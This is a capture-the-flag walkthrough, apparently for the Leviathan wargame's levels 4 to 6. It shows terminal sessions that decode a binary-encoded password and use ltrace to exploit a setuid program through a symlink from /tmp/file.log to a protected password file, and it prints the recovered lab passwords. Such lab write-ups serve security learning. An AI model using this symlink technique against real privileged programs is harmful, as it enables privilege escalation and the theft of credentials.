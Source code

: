 ```console
leviathan4@melinda:~$ cd .trash
leviathan4@melinda:~/.trash$ ls -la
total 16
dr-xr-x--- 2 root       leviathan4 4096 Nov 14  2014 .
drwxr-xr-x 3 root       root       4096 Nov 14  2014 ..
-r-sr-x--- 1 leviathan5 leviathan4 7425 Nov 14  2014 bin
leviathan4@melinda:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
```

Interesting... it's a Binary Output. Let's go online, and use a Binary to ASCII converter. I used [RapidTables](http://www.rapidtables.com/convert/number/binary-to-ascii.htm) to do my conversion. After converting the Binary, we get the password `Tith4cokei`.

Easy enough, not too hard if you know what you were looking at. Let's move on to leviathan5!

### Level 5 -> 6:
Alright, so far we had some easy ones and some hard ones... let's see what's in store for us on leviathan5.

```console
leviathan5@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan6 leviathan5 7634 Nov 14  2014 leviathan5
```

Another executable, okay. Let's run it and see what we get.

```console
leviathan5@melinda:~$ ./leviathan5
Cannot find /tmp/file.log
```

Okay. So it seems that the executable is trying to pull information on a file that doesn't exist. Let's run an `ltrace` and see what is being called.

```console
leviathan5@melinda:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd794, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r")                      = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

Interesting, it seems that the executable is using `fopen` on __/tmp/file.log__. Let's go ahead and create a symlink to __/etc/leviathan_pass/levithan6__ and link it to __/tmp/file.log__.

```console
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
UgaoFee4li
```
